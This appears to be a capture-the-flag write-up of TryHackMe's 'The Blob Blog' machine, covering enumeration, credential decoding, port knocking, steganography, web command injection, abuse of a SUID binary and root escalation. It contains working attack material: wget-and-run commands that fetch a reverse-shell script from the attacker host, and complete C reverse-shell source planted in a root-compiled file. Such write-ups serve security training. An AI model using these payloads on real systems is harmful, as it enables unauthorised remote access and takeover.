




_**Sep 15, 2020**_

## Overview

we will be conducting a penetration testing against [The Blob Blog](https://tryhackme.com/room/theblobblog) machine from [tryhackme](https://tryhackme.com/dashboard)

## Target Informations

```
IP ADDRESS  : 10.10.221.238
IP DOMAIN   : theblobblog.thm
DESCRIPTION : Successfully hack into bobloblaw's computer
```

## Drawing the perimeter

as usual we start with a basic nmap scan with service enumeration (-sV) and execution of default NSE scripts (-sC), (-T4) for timing

```
m3dsec@local:~/theblobblog.thm$ nmap -T4 -sC -sV -oN nmap/nmap_tcp_simple 10.10.221.238
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 e7:28:a6:33:66:4e:99:9e:8e:ad:2f:1b:49:ec:3e:e8 (DSA)
|   2048 86:fc:ed:ce:46:63:4d:fd:ca:74:b6:50:46:ac:33:0f (RSA)
|   256 e0:cc:05:0a:1b:8f:5e:a8:83:7d:c3:d2:b3:cf:91:ca (ECDSA)
|_  256 80:e3:45:b2:55:e2:11:31:ef:b1:fe:39:a8:90:65:c5 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

befor getting into anything, lets point the host domain name to the IP adress on our hosts file

```
m3dsec@local:~/theblobblog.thm$ echo '10.10.221.238 theblobblog.thm' >> /etc/hosts
m3dsec@local:~/theblobblog.thm$ cat /etc/hosts|tail -n 1
10.10.221.238 theblobblog.thm
```


starting with the web server running on port 80, inspecting the source code give us a base64 encoded string
```
K1stLS0+Kys8XT4rLisrK1stPisrKys8XT4uLS0tLisrKysrKysrKy4tWy0+KysrKys8XT4tLisrKytbLT4rKzxdPisuLVstPisrKys8XT4uLS1bLT4rKysrPF0+LS4tWy0+KysrPF0+LS4tLVstLS0+KzxdPi0tLitbLS0tLT4rPF0+KysrLlstPisrKzxdPisuLVstPisrKzxdPi4tWy0tLT4rKzxdPisuLS0uLS0tLS0uWy0+KysrPF0+Li0tLS0tLS0tLS0tLS4rWy0tLS0tPis8XT4uLS1bLS0tPis8XT4uLVstLS0tPis8XT4rKy4rK1stPisrKzxdPi4rKysrKysrKysrKysuLS0tLS0tLS0tLi0tLS0uKysrKysrKysrLi0tLS0tLS0tLS0uLS1bLS0tPis8XT4tLS0uK1stLS0tPis8XT4rKysuWy0+KysrPF0+Ky4rKysrKysrKysrKysrLi0tLS0tLS0tLS0uLVstLS0+KzxdPi0uKysrK1stPisrPF0+Ky4tWy0+KysrKzxdPi4tLVstPisrKys8XT4tLi0tLS0tLS0tLisrKysrKy4tLS0tLS0tLS0uLS0tLS0tLS0uLVstLS0+KzxdPi0uWy0+KysrPF0+Ky4rKysrKysrKysrKy4rKysrKysrKysrKy4tWy0+KysrPF0+LS4rWy0tLT4rPF0+KysrLi0tLS0tLS4rWy0tLS0+KzxdPisrKy4tWy0tLT4rKzxdPisuKysrLisuLS0tLS0tLS0tLS0tLisrKysrKysrLi1bKys+LS0tPF0+Ky4rKysrK1stPisrKzxdPi4tLi1bLT4rKysrKzxdPi0uKytbLS0+KysrPF0+LlstLS0+Kys8XT4tLS4rKysrK1stPisrKzxdPi4tLS0tLS0tLS0uWy0tLT4rPF0+LS0uKysrKytbLT4rKys8XT4uKysrKysrLi0tLS5bLS0+KysrKys8XT4rKysuK1stLS0tLT4rPF0+Ky4tLS0tLS0tLS0uKysrKy4tLS4rLi0tLS0tLS4rKysrKysrKysrKysrLisrKy4rLitbLS0tLT4rPF0+KysrLitbLT4rKys8XT4rLisrKysrKysrKysrLi4rKysuKy4rWysrPi0tLTxdPi4rK1stLS0+Kys8XT4uLlstPisrPF0+Ky5bLS0tPis8XT4rLisrKysrKysrKysrLi1bLT4rKys8XT4tLitbLS0tPis8XT4rKysuLS0tLS0tLitbLS0tLT4rPF0+KysrLi1bLS0tPisrPF0+LS0uKysrKysrKy4rKysrKysuLS0uKysrK1stPisrKzxdPi5bLS0tPis8XT4tLS0tLitbLS0tLT4rPF0+KysrLlstLT4rKys8XT4rLi0tLS0tLi0tLS0tLS0tLS0tLS4tLS1bLT4rKysrPF0+Li0tLS0tLS0tLS0tLS4tLS0uKysrKysrKysrLi1bLT4rKysrKzxdPi0uKytbLS0+KysrPF0+Li0tLS0tLS0uLS0tLS0tLS0tLS0tLi0tLVstPisrKys8XT4uLS0tLS0tLS0tLS0tLi0tLS4rKysrKysrKysuLVstPisrKysrPF0+LS4tLS0tLVstPisrPF0+LS4tLVstLS0+Kys8XT4tLg==
```

at the same time we run a directory brute force on the background.

decoding the base64 string, we get a [brainfuck](https://en.wikipedia.org/wiki/Brainfuck) esoteric programming language

```
m3dsec@local:~/theblobblog.thm$ echo -e "\n" ;echo "K1stLS0+Kys8XT4rLisrK1stPisrKys8XT4uLS0tLisrKysrKysrKy4tWy0+KysrKys8XT4tLisrKytbLT4rKzxdPisuLVstPisrKys8XT4uLS1bLT4rKysrPF0+LS4tWy0+KysrPF0+LS4tLVstLS0+KzxdPi0tLitbLS0tLT4rPF0+KysrLlstPisrKzxdPisuLVstPisrKzxdPi4tWy0tLT4rKzxdPisuLS0uLS0tLS0uWy0+KysrPF0+Li0tLS0tLS0tLS0tLS4rWy0tLS0tPis8XT4uLS1bLS0tPis8XT4uLVstLS0tPis8XT4rKy4rK1stPisrKzxdPi4rKysrKysrKysrKysuLS0tLS0tLS0tLi0tLS0uKysrKysrKysrLi0tLS0tLS0tLS0uLS1bLS0tPis8XT4tLS0uK1stLS0tPis8XT4rKysuWy0+KysrPF0+Ky4rKysrKysrKysrKysrLi0tLS0tLS0tLS0uLVstLS0+KzxdPi0uKysrK1stPisrPF0+Ky4tWy0+KysrKzxdPi4tLVstPisrKys8XT4tLi0tLS0tLS0tLisrKysrKy4tLS0tLS0tLS0uLS0tLS0tLS0uLVstLS0+KzxdPi0uWy0+KysrPF0+Ky4rKysrKysrKysrKy4rKysrKysrKysrKy4tWy0+KysrPF0+LS4rWy0tLT4rPF0+KysrLi0tLS0tLS4rWy0tLS0+KzxdPisrKy4tWy0tLT4rKzxdPisuKysrLisuLS0tLS0tLS0tLS0tLisrKysrKysrLi1bKys+LS0tPF0+Ky4rKysrK1stPisrKzxdPi4tLi1bLT4rKysrKzxdPi0uKytbLS0+KysrPF0+LlstLS0+Kys8XT4tLS4rKysrK1stPisrKzxdPi4tLS0tLS0tLS0uWy0tLT4rPF0+LS0uKysrKytbLT4rKys8XT4uKysrKysrLi0tLS5bLS0+KysrKys8XT4rKysuK1stLS0tLT4rPF0+Ky4tLS0tLS0tLS0uKysrKy4tLS4rLi0tLS0tLS4rKysrKysrKysrKysrLisrKy4rLitbLS0tLT4rPF0+KysrLitbLT4rKys8XT4rLisrKysrKysrKysrLi4rKysuKy4rWysrPi0tLTxdPi4rK1stLS0+Kys8XT4uLlstPisrPF0+Ky5bLS0tPis8XT4rLisrKysrKysrKysrLi1bLT4rKys8XT4tLitbLS0tPis8XT4rKysuLS0tLS0tLitbLS0tLT4rPF0+KysrLi1bLS0tPisrPF0+LS0uKysrKysrKy4rKysrKysuLS0uKysrK1stPisrKzxdPi5bLS0tPis8XT4tLS0tLitbLS0tLT4rPF0+KysrLlstLT4rKys8XT4rLi0tLS0tLi0tLS0tLS0tLS0tLS4tLS1bLT4rKysrPF0+Li0tLS0tLS0tLS0tLS4tLS0uKysrKysrKysrLi1bLT4rKysrKzxdPi0uKytbLS0+KysrPF0+Li0tLS0tLS0uLS0tLS0tLS0tLS0tLi0tLVstPisrKys8XT4uLS0tLS0tLS0tLS0tLi0tLS4rKysrKysrKysuLVstPisrKysrPF0+LS4tLS0tLVstPisrPF0+LS4tLVstLS0+Kys8XT4tLg==" |base64 -d;echo -e "\n\n\n"

+[--->++<]>+.+++[->++++<]>.---.+++++++++.-[->+++++<]>-.++++[->++<]>+.-[->++++<]>.--[->++++<]>-.-[->+++<]>-.--[--->+<]>--.+[---->+<]>+++.[->+++<]>+.-[->+++<]>.-[--->++<]>+.--.-----.[->+++<]>.------------.+[----->+<]>.--[--->+<]>.-[---->+<]>++.++[->+++<]>.++++++++++++.---------.----.+++++++++.----------.--[--->+<]>---.+[---->+<]>+++.[->+++<]>+.+++++++++++++.----------.-[--->+<]>-.++++[->++<]>+.-[->++++<]>.--[->++++<]>-.--------.++++++.---------.--------.-[--->+<]>-.[->+++<]>+.+++++++++++.+++++++++++.-[->+++<]>-.+[--->+<]>+++.------.+[---->+<]>+++.-[--->++<]>+.+++.+.------------.++++++++.-[++>---<]>+.+++++[->+++<]>.-.-[->+++++<]>-.++[-->+++<]>.[--->++<]>--.+++++[->+++<]>.---------.[--->+<]>--.+++++[->+++<]>.++++++.---.[-->+++++<]>+++.+[----->+<]>+.---------.++++.--.+.------.+++++++++++++.+++.+.+[---->+<]>+++.+[->+++<]>+.+++++++++++..+++.+.+[++>---<]>.++[--->++<]>..[->++<]>+.[--->+<]>+.+++++++++++.-[->+++<]>-.+[--->+<]>+++.------.+[---->+<]>+++.-[--->++<]>--.+++++++.++++++.--.++++[->+++<]>.[--->+<]>----.+[---->+<]>+++.[-->+++<]>+.-----.------------.---[->++++<]>.------------.---.+++++++++.-[->+++++<]>-.++[-->+++<]>.-------.------------.---[->++++<]>.------------.---.+++++++++.-[->+++++<]>-.-----[->++<]>-.--[--->++<]>-.
```

we can use one of the online tools to interpret that code, i used [dcode.fr](https://www.dcode.fr/brainfuck-language) for that

```
When I was a kid, my friends and I would always knock on 3 of our neighbors doors.  Always houses 1, then 3, then 5!
```

from that note we assume that we need to use [port knocking ](https://en.wikipedia.org/wiki/Port_knocking) technique

basicaly we'll need to generate a connection attempts to a series of predefined closed ports, and thos ports are 1, 3 and 5. (based on the retrived note)


i'll be using [knockd](https://linux.die.net/man/1/knockd) to konck thos ports, then i'll rescan the target host to see if anything has changed.

_TIP : u can always use nmap to perform a port knocking by looping thro the ports_

```
for i in 1 3 5;do nmap -p $i 10.10.221.238;done
```


```
m3dsec@local:~/theblobblog.thm$ knock 10.10.221.238 1 3 5;sleep 1; nmap -T4 -p- -oN nmap/nmap_tcp_full 10.10.116.135
Host is up (0.092s latency).
Not shown: 65522 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
80/tcp    open     http
445/tcp   open     microsoft-ds
8080/tcp  open     http-proxy
```

after knocking those ports, other new ports where open by the firewall
- 21 (ftp service)
- 445 (web server)
- 8080 (web server)


<br>

back to port 80 there is a second comment, with a username and an encoded password

```html
<!--
Dang it Bob, why do you always forget your password?
I'll encode for you here so nobody else can figure out what it is: 
HcfP8J54AK4
-->
```

`HcfP8J54AK4` --> from [base58](https://gchq.github.io/CyberChef/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)&input=SGNmUDhKNTRBSzQ) --> `cUpC4k3s`

```
bob:cUpC4k3s
```

on port 445, inspecting the source code, we get a 3d comment with a 2nd password
```html
<!--
Bob, I swear to goodness, if you can't remember p@55w0rd 
It's not that hard
-->
```

```
bob:p@55w0rd
```


<br>

normaly we get back and check those credentials against all the other previous services.

in this case ```bob:cUpC4k3s``` credentials worked on ftp and only ftp.

```
m3dsec@local:~/theblobblog.thm$ ncftp -u bob -p cUpC4k3s 10.10.221.238
NcFTP 3.2.5 (Feb 02, 2011) by Mike Gleason (http://www.NcFTP.com/contact/).
Connecting to theblobblog.thm...                                                                                     
(vsFTPd 3.0.2)
Logging in...                                                                                                      
Login successful.
Logged in to theblobblog.thm.                                                                                        
ncftp / > ls
examples.desktop   ftp/
ncftp / > cd ftp
Directory successfully changed.
ncftp /ftp > ls
files/
ncftp /ftp > cd files
Directory successfully changed.
ncftp /ftp/files > ls -lat
drwxr-xr-x    2 1001     1001         4096 Jul 28 16:05 .
-rw-r--r--    1 1001     1001         8183 Jul 28 16:05 cool.jpeg
dr-xr-xr-x    3 65534    65534        4096 Jul 25 14:08 ..
ncftp /ftp/files > mget cool.jpeg
cool.jpeg:                                               7.99 kB   72.02 kB/s  
```

oviously the image had a hidden data on it, i extracted the hidden message with [steghide](https://github.com/StefanoDeVuono/steghide)

```
m3dsec@local:~/theblobblog.thm/files$ steghide extract -sf cool.jpeg 
Enter passphrase: p@55w0rd
wrote extracted data to "out.txt".
m3dsec@local:~/theblobblog.thm/files$ cat out.txt 
zcv:p1fd3v3amT@55n0pr
/bobs_safe_for_stuff
```

and again we have other credentials, and a directory that we need to inspect
```
m3dsec@local:~/theblobblog.thm$ curl http://theblobblog.thm:445/bobs_safe_for_stuff
Remember this next time bob, you need it to get into the blog! I'm taking this down tomorrow, so write it down!
- youmayenter
```

<br>

## Getting 1st foothold

**web server on port 8080**

we run a directory brute force against port 8080
```
m3dsec@local:~/theblobblog.thm$ ffuf -c -u http://theblobblog.thm:8080/FUZZ -w /usr/share/seclists/Ditheblobblog.thm:8080/login
http://theblobblog.thm:8080/blog
http://theblobblog.thm:8080/review
http://theblobblog.thm:8080/blog2
http://theblobblog.thm:8080/blog1
```

visiting `http://theblobblog.thm:8080/blog` we got a login form, we tried all the pervious retrived passwords
also tried some common vulnerabilities like sql injection, and command injection, but non of them worked

after a little bit of pocking arround we realized that `zcv` is not a valid user (it might be confirmed by ssh users enumeration), also `p1fd3v3amT@55n0pr` doesnt make any sens, they might be encoded/encrypted some how.

we start playing arround with cyberchef, at the end we got something usefull 

`zcv:p1fd3v3amT@55n0pr` --> [Vigenère Decode](https://gchq.github.io/CyberChef/#recipe=Vigen%C3%A8re_Decode('youmayenter')&input=emN2OnAxZmQzdjNhbVRANTVuMHBy) (youmayenter) --> `bob:d1ff3r3ntP@55w0rd`

it was a **vigenère** encoded string with **_youmayenter_** as a key.

<br>

**Vulnerable Web App**

after login into the blog with `bob:d1ff3r3ntP@55w0rd` credentials



we notice a **submit** post form to leave reviews, and **here!** button to see the latest reviews

entring _id_ commend and clicking **here**




give us a straight direct [command injection](https://portswigger.net/web-security/os-command-injection) on the target host.




<br>

**Getting a reverse shell**

basicaly i'll be uploading a reverse shell file, give it the required permissions, then triggering that file on the target host.


i'll host it using a little python3 server, the `x.sh` file will conatin a [reverse shell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd)

and those are the of command i used on the review submit form to get a reverse shell

```
wget 10.9.123.226/x.sh
chmod +x x.sh
bash x.sh
```




we directly spawn a full tty shell with using python

```
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@bobloblaw-VirtualBox:~/html2$ export TERM=xterm
www-data@bobloblaw-VirtualBox:~/html2$ 
```


<br>

## USER - bobloblaw

while enumerating we stumbled against a suid file **/usr/bin/blogFeedback**

i copy it into my local machine, for a further analyze

```
www-data@bobloblaw-VirtualBox:~$ scp /usr/bin/blogFeedback m3dsec@10.9.123.226:/home/m3dsec/theblobblog.thm/files/blogFeedback
```

revese engeneering the binary file, i see that its taking some arguments from the user, 

```nasm
0x55a6dab8a16d      897dec         mov dword [var_14h], edi ; argc
0x55a6dab8a170      488975e0       mov qword [var_20h], rsi ; argv
```

and after meeting specific conditions, it does drop priveleges to uid 1000 (user bobloblaw) and call `/bin/sh`.

```nasm
0x55a6dab8a1f8      bee8030000     mov esi, 0x3e8          ; 1000
0x55a6dab8a1fd      bfe8030000     mov edi, 0x3e8          ; 1000
0x55a6dab8a202      b800000000     mov eax, 0
0x55a6dab8a207      e844feffff     call sym.imp.setreuid
0x55a6dab8a20c      488d3d300e00.  lea rdi, qword str.bin_sh ; 0x55a6dab8b043 ; "/bin/sh"
```

<br>

Specifing a set of arguments downward from 6 to 1 will give us a shell as user **bobloblaw**.

```
www-data@bobloblaw-VirtualBox:~/html2$ /usr/bin/blogFeedback 6 5 4 3 2 1
Now that, I can get behind!
$ id
uid=1000(bobloblaw) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bobloblaw@bobloblaw-VirtualBox:~$ 
```

<br>

## Privilege escalation

once we get inside the target host, we noticed that there is a cron job being executed with root, a tar backup process with a wildcard, seems vulnerable.

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
*  *    * * *   root    cd /home/bobloblaw/Desktop/.uh_oh && tar -zcf /tmp/backup.tar.gz *
```

but unfortunately we dont have access to **.uh_oh** folder, its not exploitable

running [pspy](https://github.com/DominicBreuker/pspy), shows that **.boring_file.c** is beying compiled and executed 

```
2020/09/14 06:04:01 CMD: UID=0    PID=2944   | /bin/sh -c gcc /home/bobloblaw/Documents/.boring_file.c -o /home/bobloblaw/Documents/.also_boring/.still_boring && chmod +x /home/bobloblaw/Documents/.also_boring/.still_boring && /home/bobloblaw/Documents/.also_boring/.still_boring | tee /dev/pts/0 /dev/pts/1 /dev/pts/2 && rm /home/bobloblaw/Documents/.also_boring/.still_boring 
2020/09/14 06:04:01 CMD: UID=0    PID=2943   | /usr/sbin/CRON -f 
2020/09/14 06:04:01 CMD: UID=0    PID=2950   | /sbin/sysctl kernel.unprivileged_bpf_disabled=1 
2020/09/14 06:04:01 CMD: UID=0    PID=2949   | /bin/sh -c gcc /home/bobloblaw/Documents/.boring_file.c -o /home/bobloblaw/Documents/.also_boring/.still_boring && chmod +x /home/bobloblaw/Documents/.also_boring/.still_boring && /home/bobloblaw/Documents/.also_boring/.still_boring | tee /dev/pts/0 /dev/pts/1 /dev/pts/2 && rm /home/bobloblaw/Documents/.also_boring/.still_boring 
```

<br>

**.boring_file.c** content
```c
#include <stdio.h>
int main() {
	printf("You haven't rooted me yet? Jeez\n");
	return 0;

}
```

<br>

we just need to add our own arbitrary [c code](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c)

```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9992;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.9.123.226");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```


upload it to the target host

```
bobloblaw@bobloblaw-VirtualBox:/home/bobloblaw/Documents$ wget 10.9.123.226/shell.c -O /home/bobloblaw/Documents/.boring_file.c
--2020-09-14 06:11:07--  http://10.9.123.226/shell.c
Connecting to 10.9.123.226:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 668 [text/plain]
Saving to: ‘/home/bobloblaw/Documents/.boring_file.c’

/home/bobloblaw/Doc 100%[===================>]     668  --.-KB/s    in 0s      

2020-09-14 06:11:07 (166 MB/s) - ‘/home/bobloblaw/Documents/.boring_file.c’ saved [668/668]
bobloblaw@bobloblaw-VirtualBox:/home/bobloblaw/Documents$ ls -lat
total 16
drwxrwx---  2 bobloblaw bobloblaw 4096 Sep 14 06:11 .also_boring
-rw-rw----  1 bobloblaw bobloblaw  668 Sep 14 06:08 .boring_file.c
drwxrwx--- 16 bobloblaw bobloblaw 4096 Sep 14 06:03 ..
drwxr-xr-x  3 bobloblaw bobloblaw 4096 Jul 30 09:33 .
```

after a 30 sec we got a reverse shell back to our local machine

```
m3dsec@local:~/theblobblog.thm$ nc -vnlp 9992
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9992
Ncat: Listening on 0.0.0.0:9992
Ncat: Connection from theblobblog.thm.
Ncat: Connection from theblobblog.thm:40864.
$ id
uid=0(root) gid=0(root) groups=0(root)

```

<br>

for the sake of proof, we need to grab the user and root flags

```
$ cat /root/root.txt
THM{G00...REDACTED}

$ cat /home/bobloblaw/user.txt
THM{C0N...REDACTED}
@jakeyee thank you so so so much for the help with the foothold on the box!!
```
<br>
Best Regards

[m3dsec](https://twitter.com/m3dsec).

<br>
<br>

[back to main()](../../index.md)

<br>
<br>
